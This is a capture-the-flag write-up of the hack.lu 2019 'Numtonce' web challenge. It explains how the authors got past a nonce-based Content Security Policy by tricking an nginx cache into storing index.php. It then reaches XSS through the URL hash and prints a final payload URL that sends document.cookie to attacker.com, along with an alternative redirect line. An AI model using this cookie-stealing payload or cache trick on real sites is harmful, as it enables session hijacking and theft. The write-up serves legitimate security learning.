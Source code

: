 ```yaml
---
title:  "Numtonce"
date:   "2019-10-27"
tags: ["web", "XSS", "CSP", "hacklu2019"]
author: "Alain K."
coverImagePath: "img/hacklu2019_website.png"
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](img/hacklu2019_website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to submit an URL to. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](img/hacklu2019_csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( nonce being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="nonce">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="nonce" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="nonce">document.write('<script nonce="nonce" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

nonce being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

